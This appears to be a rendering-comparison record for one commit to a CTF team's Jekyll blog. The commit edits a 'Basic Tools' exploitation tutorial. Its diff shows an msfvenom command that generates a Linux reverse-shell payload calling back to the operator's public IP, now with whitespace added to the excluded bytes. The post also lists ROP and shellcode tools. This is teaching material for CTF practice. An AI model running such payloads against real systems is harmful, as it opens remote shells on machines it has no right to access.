

Before and after one commit to kitctf/www, a Jekyll site: the page built from _posts/2014-12-11-basic-tools.md, in a window 1280 px wide and 900 px high, scrolled down 1526 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Improved msfvenom example in "Basic Tools" post

```diff
--- a/_posts/2014-12-11-basic-tools.md
+++ b/_posts/2014-12-11-basic-tools.md
@@ -66,10 +66,10 @@
      -p linux/x86/shell_reverse_tcp \
      LHOST=$(curl icanhazip.com) \
      LPORT=4444 \
-     -b '\x00\x0a\x0d' \
+     -b '\x00\x09\x0a\x0b\x0c\x0d\x20' \
      -f python
 
-will generate a reverse shell payload without zero bytes or newlines in it and spit it out as ready to use python code.\\
+will generate a reverse shell payload without zero bytes or whitespace in it and spit it out as ready to use python code.\\
 If you need to build a ROP payload, give [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) a try (metasploit has a similar utility called msfrop, but I found ROPgadget to work better most of the times).
 
 Some other useful tools include the [checksec.sh](http://www.trapkit.de/tools/checksec.html) script to quickly check which mitigations are enabled on a binary, the [pattern_create](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb) and [pattern_offset](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb) scripts from metasploit to find various important offsets (e.g the offset from the start of a buffer to the saved return address on the stack), as well as the metasm shell (for example to quickly assemble a "jmp short 0x10" to jump over some corrupted part of the shellcode) or nasm (to build your own shellcode).
```
